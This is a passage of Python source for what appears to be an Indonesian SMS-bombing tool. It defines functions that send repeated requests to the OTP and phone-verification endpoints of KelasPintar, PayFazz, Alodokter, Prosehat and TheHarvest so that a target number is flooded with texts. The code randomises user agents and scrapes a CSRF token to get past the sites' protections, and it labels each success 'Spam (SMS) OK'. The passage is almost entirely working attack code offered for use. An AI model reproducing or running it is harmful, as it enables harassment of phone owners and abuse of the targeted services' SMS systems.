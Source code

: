 
     }
     dat = {
          "user_mobile":nom,
          "otp_type":"send_otp_reg",
          "mobile_code":"%2B62",
     }
     x = r.post('https://www.kelaspintar.id/user/otpverification',data=dat,headers=headers).text
     if 'OTP send' in x:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}KelasPintar{kan} OK")
     else:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}KelasPintar{kun} Gagal abang jago")
 def payfazz(nom):
     hd = {'Host': 'api.payfazz.com', 'content-length': '17', 'accept': '*/*', 'origin': 'https://www.payfazz.com','user-agent': ua.random, 'content-type': 'application/x-www-form-urlencoded; charset=UTF-8', 'referer': 'http://www.payfazz.com/register/BEN6ZF74XL', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'}
     r = ru.Session()
     a = r.post('https://api.payfazz.com/v2/phoneVerifications', headers=hd, data={'phone': '0'+nom})
     if 'phoneVerificationId' in a.text:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}PayFazz{kan} OK")
     else:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}PayFazz{kun} Gagal abang jago")
 def alodokter(nom):
     r = ru.Session()
     r.headers.update({'referer':'https://www.alodokter.com/login-alodokter'})
     hy = r.get("https://www.alodokter.com/login-alodokter")
     tol = bs(hy.text,'html.parser')
     token=tol.find('meta',{'name':'csrf-token'})['content']
     hd = {
     'user-agent':ua.random,
     'content-type':'application/json',
     'referer':'https://www.alodokter.com/login-alodokter',
     'accept':'application/json',
     'origin':'https://www.alodokter.com',
     'x-csrf-token':token
      }
     y = r.post("https://www.alodokter.com/login-with-phone-number",headers=hd,json={"user":{"phone":"0"+nom}})
     if y.json()['status'] == 'success':
       print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}Alodokter{kan} OK")
     else:
       print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}Alodokter{kun} Gagal abang jago")
 def prosehat(nom):
     head={
                        'accept': 'application/json, text/javascript, */*; q=0.01',                                                                                  
                        'origin': 'https://www.prosehat.com',                                                                                                        
                        'x-requested-with': 'XMLHttpRequest',
                        'user-agent': ua.random,
                        'content-type': 'application/x-www-form-urlencoded; charset=UTF-8',
                        'referer': 'https://www.prosehat.com/akun',
                }
     dat={'phone_or_email':'0'+nom,'action':'ajaxverificationsend'}
     ng=ru.post('https://www.prosehat.com/wp-admin/admin-ajax.php',data=dat,headers=head)
     if "token" in ng.text:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}Prosehat{kan} OK")
     else:
      print (f"{ken}[{kun}•{ken}] {ken}Spam {kan}({kun}SMS{kan}) {ken}Prosehat{kun} Gagal abang jago")
 def theharvest(nom):
     hd = {
     'user-agent':ua.random
     }
     dat = {
     'phone':nom